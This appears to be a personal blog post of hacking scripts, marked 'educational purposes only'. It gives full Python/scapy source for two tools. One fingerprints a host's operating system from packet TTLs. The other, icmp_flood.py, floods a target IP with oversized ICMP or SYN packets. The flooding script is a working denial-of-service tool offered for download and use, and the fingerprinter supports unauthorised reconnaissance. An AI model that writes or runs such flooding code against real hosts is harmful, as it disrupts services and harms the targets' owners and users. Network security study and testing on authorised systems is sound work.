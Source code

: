 ```yaml
---
title: Tools
date: 2024-02-28 17:00:00 +0300
categories: [scripts]
tag: [scripts,python]
---
```


# Disclamer: All the scripts i write are for educational purposes only.

### fingerprinter.py 
### a tool uses ttl from tcp packet to detrmine the os of a machine
### Example: `python3 fingerprinter.py -H IP -sP 5555 -dP 21`

```python
from scapy.all import *
import argparse


def argument_parser():
    """Allow user to specify target host and port."""
    parser = argparse.ArgumentParser(description="Basic OS detection tool.")
    parser.add_argument("-H", "--host", help="Host IP address")
    parser.add_argument("-sP", "--sendport",help="sender port'")
    parser.add_argument("-dP", "--destport",help="destination port'")

    var_args = vars(parser.parse_args())  
    return var_args

def fingerprint(target: str, sport0: int, dport0: int):
	seq=100
	ip = IP(dst=target)
	tcp= TCP(sport= sport0, dport= dport0, flags="S", seq= seq)

	packet= ip/tcp
	synack_packet = sr1(packet ,verbose=0)
	#synack_packet.show()
	if synack_packet.ttl == 128:
		return "Windows"
	elif synack_packet.ttl == 64:
		return "Linux"

	
'''
ip= str(input("Enter the target ip: "))
sendp= int(input("Enter Sending Port: "))
destp= int(input("Enter destination Port: "))
'''

if __name__ == "__main__":
	try:
		user_args = argument_parser()
		host = str(user_args["host"])
		sport = int(user_args["sendport"])
		dport = int(user_args["destport"])
		print(f"The Host {host} OS is " + fingerprint(host, sport, dport))
	except AttributeError:
		print("Error. Please provide the command-line arguments before running.")
```
### download the script: [fingerprinter.py]

[fingerprinter.py]:{{https://github.com/h0t0/h0t0.github.io}}/assets/files/fingerprinter.py

### icmp_flood.py
### a simple icmp/syn flooding tool using scapy
### Example: `python3 icmp_flood.py -H IP -c 100`

```python
from scapy.all import *
import argparse


def argument_parser():
    """Allow user to specify target host and port."""
    parser = argparse.ArgumentParser(description="Basic SYN , ICMP flood script.")
    parser.add_argument("-H", "--host", help="Host IP address")
    parser.add_argument("-c", "--cycle", help="select how many times the packet is sent")

    var_args = vars(parser.parse_args())  # Convert argument namespace to dictionary
    print(var_args)
    return var_args


def icmp_flood(target: str , cycle: int, payload: int = 65000):
	ip = IP(dst=target)
	icmp = ICMP()
	raw = Raw(b"X" * payload)
	packet = ip / icmp / raw
	send(packet, count=cycle, verbose=0)
	print('send_ping(): Sent ' + str(cycle) + ' pings of ' + str(payload) + ' size to ' + target)


def syn_flood(target: str, cycle: int, dport: int,  payload: int = 65000):
	ip = IP(dst=target)
	tcp = TCP(dport= dport, flags= "S")
	raw = Raw(b"X" * payload)
	packet = ip / tcp / raw
	send(packet, count=cycle, verbose=0)
	print('send_syn(): Sent ' + str(cycle) + ' packets of ' + str(payload) + ' size to ' + target)


if __name__ == "__main__":
	try:
		user_args = argument_parser()
		host = str(user_args["host"])
		cycle = int(user_args["cycle"])

		flood_type = input("ICMP or SYN flood? ")

		if flood_type.lower() == "icmp": 
			icmp_flood(host, cycle)
		
		elif flood_type.lower() == "syn":
			dport= int(input("Enter Destination port: "))
			syn_flood(host, cycle, dport)
	
	except AttributeError:
		print("Error. Please provide the command-line arguments before running.")
```
### download the script [icmp_flood.py]

[icmp_flood.py]:{{https://github.com/h0t0/h0t0.github.io}}/assets/files/icmp_flood.py
